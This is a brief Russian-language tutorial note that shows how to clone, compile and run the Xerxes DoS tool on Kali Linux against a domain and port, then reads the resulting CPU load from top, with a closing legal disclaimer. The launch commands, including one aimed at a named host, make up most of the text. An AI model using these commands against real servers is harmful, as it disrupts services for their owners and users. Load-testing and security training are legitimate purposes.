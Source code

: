  XERXES – самый мощный инструмент для DoS-атаки с использованием [[Kali Linux]]
-- Как использовать Xerxes при запуске атаки DOS.

Инструменты DDOS способны создавать большие нагрузки на HTTP-серверы и вызывать большую нагрузку на ресурсы серверов.

Что такое DOS-атака?
Тип атаки, которая флудит серверы или сети, что приводит к тому, что источник недоступен для конечных пользователей.

Xerxes – это простой мощный инструмент для DoS-атаки с использованием Kali Linux

Используйте Xerxes из Github для этого выполните следующие команды:

``` bash
git clone https://github.com/XCHADXFAQ77X/XERXES.git
```
Затем перейдите в директорию.

```
cd xerxes
```

Далее вы должны скомпилировать с помощью GNU GCC

``` bash
gcc xerxes.c -o xerxes
```

Чтобы начать атаку укажите IP-адрес либо домен и порт. Например:

``` bash
./xerxes tsarev.biz 80
```

![[Pasted image 20241006120824.png]]
![[Pasted image 20241006120838.png]]

## Как видеть результат атаки, возросшая нагрузка на процессор?

Значение `us (user space)` составляет 5.9%, а `sy (system space)` — 4.8% на двухядерном процессоре, это может означать следующее:


   - Для двухядерного процессора максимальное использование CPU составляет 200% (100% на каждое ядро).
   - В вашем случае, общее использование CPU можно оценить как сумму `us` и `sy`:
     - `us + sy = 5.9% + 4.8% = 10.7%`
   - Это означает, что в данный момент ваш процессор используется на 10.7% от его общей мощности.

### Заключение

В данный момент нагрузка увеличилась на 10.7% 


![[Pasted image 20241006120859.png]]



❗ Примечание: Информация только для исследования, обучения или проведения аудита. Применение в корыстных целях карается законом.